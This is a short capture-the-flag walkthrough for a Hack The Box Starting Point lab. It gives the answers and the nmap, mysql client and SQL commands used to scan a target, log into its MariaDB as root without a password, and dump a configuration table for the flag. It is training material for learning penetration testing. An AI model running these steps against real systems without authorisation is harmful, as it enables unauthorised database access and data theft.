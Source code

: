# Link
- https://app.hackthebox.com/starting-point

# Questions

## During our scan, which port do we find serving MySQL?
- `nmap $IP`

## What community-developed MySQL version is the target running?
- `nmap $IP -p3306 -Pn -sV`

## When using the MySQL command line client, what switch do we need to use in order to specify a login username?
- `-u`

## Which username allows us to log into this MariaDB instance without providing a password?
- root

## In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?
- '*'

## In SQL, what symbol do we need to end each query with?
- ';'

## There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

```bash
mysql -h $IP -u root

show databases;
```

## Submit root flag
```bash
use htb;

select * from config;
```